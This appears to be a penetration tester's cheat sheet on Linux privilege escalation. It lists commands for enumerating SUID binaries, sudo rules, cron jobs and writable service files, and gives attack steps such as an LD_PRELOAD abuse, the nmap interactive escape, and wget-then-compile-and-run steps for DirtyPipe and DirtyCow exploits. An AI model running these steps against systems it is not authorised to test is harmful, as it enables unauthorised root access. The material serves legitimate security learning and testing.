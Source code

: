 ```yaml
---
layout: notes
permalink: /notes/linux/privesc/
title: Linux Privilege Escalation
---
```


## Privilege Escalation Vectors

### Unix Binaries
[GTFOBins](https://gtfobins.github.io/)

### SUID Binaries
```bash
# Find SUID binaries
find / -perm -4000 2>/dev/null

# Check common SUID binaries
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp

# Test SUID binaries
strings <binary>
strace <binary>

# Test SUID binaries for exploits
strings /usr/bin/nmap
strace /usr/bin/nmap

# Example exploit for older nmap (if SUID)
/usr/bin/nmap --interactive
```
### Sudo

```bash
# Check sudo permissions
sudo -l

# Check sudoers files for misconfigs
cat /etc/sudoers
cat /etc/sudoers.d/*

# Exploit LD_PRELOAD
sudo LD_PRELOAD=/tmp/malicious.so <command>

# Exploit wildcards
sudo /bin/*
```

### Cron Jobs
```bash
# Inspect cron jobs
cat /etc/cron.*
cat /var/spool/cron/crontabs/*
crontab -l
```
### World-Writable Files
```bash
# Find world-writable files
find / -writable 2>/dev/null
```
### Kernel Exploits
```bash
# Check kernel version
uname -r

# Find kernel exploits
searchsploit linux kernel $(uname -r)

# Run DirtyPipe exploit (example)
wget <dirtypipe_poc_url> -O dirtypipe.c
gcc dirtypipe.c -o dirtypipe
./dirtypipe

# Run DirtyC0w exploit (example)
wget <dirtycow_poc_url> -O dirtycow.c
gcc dirtycow.c -o dirtycow
./dirtycow
```

### Service Misconfigurations
```bash
# Check service files
ls -l /etc/systemd/system/
ls -l /etc/init.d/

# Find writable service files
find /etc/systemd/system/ -writable 2>/dev/null
find /etc/init.d/ -writable 2>/dev/null

# Check unquoted paths in services
ps aux | grep <service>
```

## Automated Enumeration Tools
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Unix Privesc Check](https://pentestmonkey.net/tools/audit/unix-privesc-check)